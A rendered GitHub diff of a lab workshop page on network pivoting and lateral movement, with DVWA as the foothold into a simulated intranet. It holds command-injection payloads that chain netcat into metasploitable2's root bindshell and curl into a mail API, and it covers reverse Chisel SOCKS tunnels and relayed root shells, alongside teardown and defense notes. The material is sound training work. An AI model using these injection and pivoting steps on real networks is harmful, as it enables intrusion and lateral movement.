

Before and after one commit to wocsa/WOCSA_Ethical_Hacking_Workshop, a Markdown page: Network/Pivoting/Pivoting_Lateral_Movement.md, the part around one of its changes. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Network/Pivoting/Pivoting_Lateral_Movement.md
+++ b/Network/Pivoting/Pivoting_Lateral_Movement.md
@@ -185,43 +198,49 @@ SSH `-D` is an alternative only after the SSH endpoint is reachable. Direct `ssh
+Tear down afterwards: stop the chisel client and server, stop the `http.server`, and remove the binary with `[DVWA] 127.0.0.1; pkill -f /tmp/chisel; rm -f /tmp/chisel /tmp/chisel.log`.
+
+SSH `-D` is an alternative only after an SSH endpoint is reachable. A direct `ssh -D ... 10.5.20.12` from your seat cannot establish the first pivot - the host is not routable until the tunnel exists. SFTPGo is a file transfer service, not a general SSH shell/tunneling server.
 
 ## Pivot 4: Mint your own VPN peer (become an employee)
-This is an optional instructor-assisted comparison, not a required exploitation step. Start the VPN service separately, use an instructor-issued admin credential, and browse `http://10.5.20.2:51821` through the SOCKS browser. Log in, create a temporary `pivot-proof` peer, download its configuration, then activate it in WireGuard. The VPN endpoint must point to the reachable lab server and its UDP port must be accessible. Confirm intranet access, disconnect, then delete the temporary peer and local configuration.
+This is an optional instructor-assisted comparison, not a required exploitation step. The instructor starts the VPN service and issues an admin credential; you browse `http://10.5.20.2:51821` **through the SOCKS browser from Pivot 3** (it is an intranet host). Log in, create a temporary `pivot-proof` peer, download its configuration, then activate it in WireGuard. The VPN endpoint must point to the reachable lab server and its UDP port must be accessible. Confirm intranet access, disconnect, then delete the temporary peer and local configuration.
 
-Do not assume wg-easy v15 accepts Basic authentication on `/api/client`, or that Grafana reveals its encrypted `secureJsonData` values. Use the deployed version's UI and verify its API before automating it. Reading `CyberRange/.env` as the operator is an assisted credential handoff, not an attacker discovery. The sample environment has a known training password; change it for a shared session.
+Do not assume wg-easy v15 accepts Basic authentication on `/api/client`, or that Grafana reveals its encrypted `secureJsonData` values. Use the deployed version's UI and verify its API before automating it. Reading `CyberRange/.env` is an `[operator]` credential handoff on the server, not an attacker discovery. The sample environment has a known training password; change it for a shared session.
 
 # Phase 4 - Lateral movement goals
 Choose your own adventure, all from the pivoted position:
-- **Own metasploitable2** (`10.5.20.12`): `msfadmin` / `msfadmin` over SSH or telnet; or the famous root bindshell on port `1524`:
-  ```bash
-  docker exec cyberrange-dvwa sh -c 'printf "id\nexit\n" | nc -w 3 10.5.20.12 1524'
+- **Own metasploitable2** (`10.5.20.12`): `msfadmin` / `msfadmin` over SSH or telnet (reach them through the SOCKS pivot with `proxychains`); or the famous root bindshell on port `1524`, which you can hit straight from the web channel:
   ```
-  Then enumerate its many services (21, 22, 23, 25, 111, 139, 445, 512-514, 1099, 2121, 3306, 3632, 5432, 6667, 6697, 8009, 8180, 8787) for more practice.
+  [DVWA]  127.0.0.1; printf "id\nexit\n" | nc -w 3 10.5.20.12 1524
+  ```
+  Then enumerate its many services (21, 22, 23, 25, 111, 139, 445, 512-514, 1099, 2121, 3306, 3632, 5432, 6667, 6697, 8009, 8180, 8787) for more practice - through `proxychains` from your machine, or more `[DVWA]` curl/nc probes.
 - **Inspect the optional workstations** through the SOCKS browser (`https://10.5.20.21:3001`, `https://10.5.20.22:3001`). These use self-signed certificates. The Compose configuration does not set desktop credentials; VPN credentials are not desktop credentials.
 - **Read the company mail** (mailpit, reachable from DVWA on the DMZ leg):
-  ```bash
-  docker exec cyberrange-dvwa curl -s http://10.5.10.13:8025/api/v1/messages
-  docker exec cyberrange-dvwa curl -s 'http://10.5.10.13:8025/api/v1/message/REPLACE_WITH_ID/raw'
+  ```
+  [DVWA]  127.0.0.1; curl -s http://10.5.10.13:8025/api/v1/messages
+  [DVWA]  127.0.0.1; curl -s 'http://10.5.10.13:8025/api/v1/message/REPLACE_WITH_ID/raw'
   ```
 
 # Defense & detection
-- **Verify segmentation against listening services**: pair each negative check (from a DMZ-only box) with a successful check from DVWA. For a manual wiki check:
+- **The remote-attacker view is itself the lesson**: from a participant seat, `10.5.20.x` is unreachable - every direct probe times out. The intranet only becomes reachable *through* DVWA, because someone gave DVWA a third network leg. Pair that dead end with the successful `[DVWA]` reach to make the point concrete.
+- **Verify segmentation against listening services** (`[operator]`, on the server): pair a negative check from a DMZ-only box with a positive one from DVWA. For a manual wiki check:
   ```bash
   docker exec cyberrange-corporate-site wget -qO- --timeout=2 http://10.5.20.10/ ; echo "exit=$?"
   ```
-  This should fail while the wiki HTTP request from DVWA succeeds. Test the database on TCP 3306, not HTTP port 80 (which is closed even without isolation). This is the single most important lesson: DVWA is reachable *because* someone gave it three legs.
+  This should fail while the same request from DVWA succeeds. Test the database on TCP 3306, not HTTP port 80 (which is closed even without isolation). This is the single most important lesson: DVWA is reachable *because* someone gave it three legs.
 - **Least privilege network legs**: DMZ apps need a DMZ leg, not an intranet one. Databases need a private tier reachable only by their application. Review every container's networks like a firewall rule.
-- **Detection limits**: the bundled Prometheus/blackbox dashboards show service health, not connection histories or peer-creation audit events. To investigate a pivot, collect application logs and packet captures on the relevant interfaces. Record source/destination addresses and timestamps during the exercise.
+- **Detection limits**: the bundled Prometheus/blackbox dashboards show service health, not connection histories or peer-creation audit events. To investigate a pivot, collect application logs and packet captures on the relevant interfaces (the relay and tunnel connections above all originate from DVWA). Record source/destination addresses and timestamps during the exercise.
 - **Patch and segment DVWA**: it is intentionally vulnerable (low security level, command injection, file upload) - in production it should be patched, hardened, and, above all, stripped of its intranet leg.
 
 # Takeaways checklist
-- [ ] Logged into DVWA at `localhost:8081` (`admin`/`password`), ran setup.php on first boot
-- [ ] Confirmed DVWA's three legs with `docker inspect`
+- [ ] Logged into DVWA at `SERVER:8081` (`admin`/`password`), ran setup.php on first boot
+- [ ] Got a `[DVWA]` command channel through Command Injection (or an uploaded webshell)
+- [ ] Confirmed DVWA's three legs with `hostname -I` over that channel
 - [ ] Enumerated `10.5.20.0/24` from DVWA with the php/python3 port-80 sweep
 - [ ] Reached the wiki (`10.5.20.10`), metasploitable2 (`10.5.20.12`) and wg-easy (`10.5.20.2:51821`) through the curl relay
-- [ ] Caught a metasploitable2 root shell through the DVWA nc relay
+- [ ] Caught a metasploitable2 root shell on your own listener through the DVWA nc relay
 - [ ] Set up a reverse Chisel SOCKS pivot on DVWA and browsed the intranet with `proxychains`
 - [ ] Optionally created and deleted a WireGuard peer through the UI with instructor credentials
-- [ ] Verified that a DMZ-only container cannot reach the intranet
+- [ ] Confirmed that the intranet is unreachable directly from your seat (only through DVWA)
 - [ ] Read company mail through the mailpit API
+- [ ] Tore down listeners, tunnels and the staged `/tmp/chisel` binary
 
 # Resources
 - [wg-easy documentation & API](https://github.com/wg-easy/wg-easy)
````
Also changed, not shown: other parts of Network/Pivoting/Pivoting_Lateral_Movement.md (+98 -85 lines).
